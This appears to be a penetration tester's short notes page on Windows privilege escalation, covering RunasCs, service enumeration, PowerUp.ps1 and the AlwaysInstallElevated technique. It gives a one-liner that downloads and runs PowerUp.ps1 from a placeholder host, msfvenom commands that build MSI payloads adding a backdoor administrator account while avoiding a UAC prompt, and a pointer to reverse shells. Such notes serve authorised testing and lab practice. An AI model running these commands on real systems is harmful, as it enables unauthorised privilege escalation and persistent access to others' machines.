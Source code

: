## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`

# Services
Check all services with `sc.exe`
```cmd
sc.exe query state=all
```
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
## Outputs
- #AlwaysInstallElevated 
	Use [[Metasploit#Generate Payload]] to create `.msi` reverse-shell and send it with [[File Transfer]]
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```